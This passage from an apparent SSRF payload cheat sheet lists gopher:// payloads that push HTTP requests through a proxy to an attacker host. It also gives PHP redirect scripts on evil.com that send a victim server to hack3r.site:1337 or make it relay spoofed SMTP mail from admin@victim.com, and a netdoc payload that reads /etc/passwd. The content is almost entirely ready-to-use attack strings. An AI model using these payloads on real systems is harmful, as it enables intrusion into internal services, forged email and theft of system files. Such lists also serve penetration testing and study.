 ```powershell


.
QUIT
```

#### Gopher HTTP

```powershell
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

#### Gopher SMTP - Back connect to 1337

```php
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```

#### Gopher SMTP - send a mail

```php
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### Netdoc

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
``` 
